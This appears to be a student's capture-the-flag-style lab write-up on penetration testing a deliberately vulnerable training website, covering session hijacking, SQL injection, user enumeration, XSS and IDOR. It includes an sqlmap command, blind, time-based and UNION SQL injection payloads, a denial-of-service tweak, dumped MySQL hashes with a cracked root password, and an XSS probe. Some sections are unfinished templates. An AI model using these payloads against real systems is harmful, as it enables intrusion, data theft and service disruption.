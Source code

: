 #  Pen Testing Live Targets

Time spent: 15 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

# Vulnerability #1: Session Hijacking

Description: 

A Session Hijacking attack is an exploit the seeks to manipulate the web session control mechanism by sending a request to a web server with an authenticated SessionID, Cookie or a combination of both. Web servers grant a token to a client browser after authentication, said token can be used to hijack another users's session. By masquerding your browsers token as the authenticated token, the web server will recognize you as an authenticated user, granting you access. 

How to document and recreate this exploit:

1. First visit https://104.198.208.81/blue/public/staff/login.php and login using the pperson credentials. 
2. Then go to https://104.198.208.81/blue/public/hacktools/change_session_id.php to see your current PHPSESSIONID, store that information for later. 
3. Open another browser such as Firefox or Chrome and visit https://104.198.208.81/blue/public/hacktools/change_session_id.php, copy the authenticated PHPSESSIONID to replace the your Session ID. 
4. Next visit https://104.198.208.81/blue/public/login.php, you should see that you are already logged in. 
5. We successfully bypassed authentication.

![Session Hijacking Exploit](https://user-images.githubusercontent.com/111711434/200113050-d1337254-f6f5-4351-b27f-76912f7a5866.gif)


# Vulnerability 2: SQL Injections

Description: 

How to document and recreate this exploit:

1. First visit https://104.198.208.81/blue/public/staff/login.php and login using the pperson credentials. 
2. Then head on over to URL https://104.198.208.81/blue/public/salesperson.php?id=1 
3. Using BurpSuite, GET request file as a TXT file. We will feed this information to a tool called SQLMap with the following parameter: sqlmap -r /home/kali/sqlmal-dev/request.txt -a (the -a parameter will return EVERYTHING, at times not recommended)
4. SQLMap detects a vulnerability in the 'id=' field and provides us with three SQL injections:
	
   * Parameter: id (GET)
     * Type: boolean-based blind
     * Title: AND boolean-based blind - WHERE or HAVING clause
     * Payload: id=3' AND 2971=2971 AND 'bcTH'='bcTH
    
      Comments after testing: Returned the information for User Irene Boling, see below:
   
   
  * Irene Boling
  * 555-736-2301
  * iboling@salesperson.com

   
   
   * Type: time-based blind
   * Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
   * Payload: id=3' AND (SELECT 8396 FROM (SELECT(SLEEP(5)))PBWw) AND 'pCMl'='pCMl 
   
   
     Comments after testing: Changed (SlEEP(5))))PBWw) to SLEEP(200000))))PBWw and it created a Denial of Service for the time   set. 
   ![Denial of Service after SQL injection  ](https://user-images.githubusercontent.com/111711434/200140448-3da3ba36-f3b6-4bcf-a079-b24d6592906c.png)

   * Type: UNION query
   - Title: Generic UNION query (NULL) - 5 columns
   - Payload: id=-8495' UNION ALL SELECT  CONCAT(0x716b766a71,0x6b544944475a6778655979637a6558776b595163416a567459494a735864556b4f55666875547352,0x7171717a71),NULL,NULL,NULL,NULL-- -


Comments after testing: Redirects back to the 'Find a Salesperson' web page.

The scan revelead the following information that can further assist us:
* Web Server OS : Linux Ubuntu 16.04 or 16.10
* Web App Technology: Apache 2.4.18 server
* MySQL version: 5.0.12

Databases:  

* [INFO] fetching database names
* [INFO] resumed: 'globitek_blue'
* [INFO] resumed: 'information_schema'
* [INFO] resumed: 'globitek_blue'
* [INFO] resumed: 'globitek_green'
* [INFO] resumed: 'globitek_red'
* [INFO] resumed: 'mysql'
* [INFO] resumed: 'performance_schema'
* [INFO] resumed: 'sys'



Database management users:                                                                                                                                                                                                     
* 'debian-sys-maint'@'localhost'
* 'mysql.session'@'localhost'
* 'mysql.sys'@'localhost'
* 'root'@'localhost'


Moreover, SQLMap also located & revealed the following password hashes:

[INFO] fetching database users password hashes
  
[INFO] resumed: 'mysql.sys','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'

[INFO] resumed: 'debian-sys-maint','*7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C'

[INFO] resumed: 'mysql.session','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'





 Using the integrated dictionary-based password cracker (mysql_passwd) the password for root was found:


database management system users password hashes:                                                                                                                               


* debian-sys-maint [1]: password hash: *7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C
* mysql.session [1]: password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
* mysql.sys [1]: password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
* root [1]: password hash: *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
*                            clear-text password: password




## Green

# Vulnerability #1: User Enumaration 

Description:

How to document and recreate this exploit:

1. Visit https://104.198.208.81/green/public/staff/login.php
2. Attempt to log on with a random username & password, you will notice that the error returns as "Log in was unsuccesful"; however, upon attempting to enter a known user such as pperson with a wrong password the same error returned but in bold(different CSS class), confirming the user exists in the database. 

![User Enumeration ](https://user-images.githubusercontent.com/111711434/200143718-b1ebb1ae-5fd7-4d2f-a9ee-1dfd6b6dd1f6.gif)



# Vulnerability #2: Cross Site Scripting (XSS) 

Description: 

How to document and recreate this exploit:

1. Visit https://104.198.208.81/green/public/
2. Then go to https://104.198.208.81/green/public/contact.php, the 'Contact' form is possible point of injection for XSS. 
   ![image](https://user-images.githubusercontent.com/111711434/200144285-d3869f55-8a9f-479e-911b-a2b0b612a750.png)

     
3. Fill out the fields:
  * Name: Test
  * Email: test@yahoo.com
  * Feedback: <script>alert('In plain sight.');</script  (this is a blind XSS script test) 
4. Hit submit.
5. Log in using the pperson credentials.
6. Head to the Feedback section.
7. We confirmed that the site is vulnerable to XSS. 

![Green XSS](https://user-images.githubusercontent.com/111711434/200143880-9a29cfb5-4871-464d-9bca-4545b404deeb.gif)



## Red

# Vulnerability #1: Insecure Direct Object Reference (IDOR)

	
Description:

How to document and recreate this exploit:
	
1. Visit https://104.198.208.81/red/public/index.php
2. Head over to https://104.198.208.81/red/public/territories.php and click on any user of interest, in this case I picked bobby (https://104.198.208.81/red/public/salesperson.php?id=1) 
3. Preliminary testing indicates that salesperson.php?id= may be vulnerable. 
 * Tested various values in the ID= field of the URL
 * ID=10 revealed information about 
   Testy McTesterson, and user that is not supposed to be public until September 1st. 
   ![image](https://user-images.githubusercontent.com/111711434/200144425-b4fa5ff2-4ff8-41f7-80bf-95b876e7d9cc.png)
 
	

	
* ID=11 revelead information on Lazy Lazyman, an employee that was fired.
  ![image](https://user-images.githubusercontent.com/111711434/200144538-ad5dce27-82e2-43c7-bca9-d066dccad206.png)



  

	
	
	
	
	
	
# Vulnerability #2: ---- 

Description:


## Notes

Describe any challenges encountered while doing the work
